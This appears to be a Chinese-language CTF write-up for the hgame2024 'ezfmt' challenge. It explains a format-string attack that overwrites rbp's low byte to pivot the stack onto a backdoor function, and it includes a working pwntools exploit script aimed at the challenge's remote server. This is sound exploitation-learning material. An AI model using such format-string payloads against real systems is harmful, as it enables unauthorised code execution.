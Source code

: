 ```yaml
---
title: hgame2024 week1 - ezfmt string 
date: 2024/2/5 19:50:00
tags:
    - fmt-string
    - stack pivot
    - 1-digit guess
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

考察格式化字符串却不给libc，说明要找共通之处，先patch一下2.31，发现依赖更高版本，
遂尝试2.35，两者不变的地方在于靠近rbp的位置有一个指向rbp的指针，并且binary中还有一个后门函数。
如果直接把后门函数写到retAddr上，那么会因为栈无法对齐而SIGSEGV，于是可以修改rbp，打栈迁移，
把栈迁移到输入的后门函数地址的下方，这样在main函数返回时就会执行之；不过输入前没有输出，
栈迁移到哪里是盲打的，只有1/16的概率能够命中

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int, rbp:int=0x58):
    global sh
    if lo:
        sh = process('./fmt')
        if lo & 0b10:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32034)
    elf = ELF('./fmt')
    sysAddr = elf.symbols['sys']

    if lo & 0b100:
        byte = int(input('input known addr of rbp( & 0xff ):'), 16) # 输入sysAddr - 8的最后一字节以准确命中
    else:
        byte = rbp

    # payload, stack pivot to &sysAddr
    sh.sendline(f'%{byte}c%18$hhn'.ljust(0x10).encode() + p64(sysAddr)) # <- sysAddr is here

    sh.clean(0.5) # have a clean shell
    sh.interactive()
```
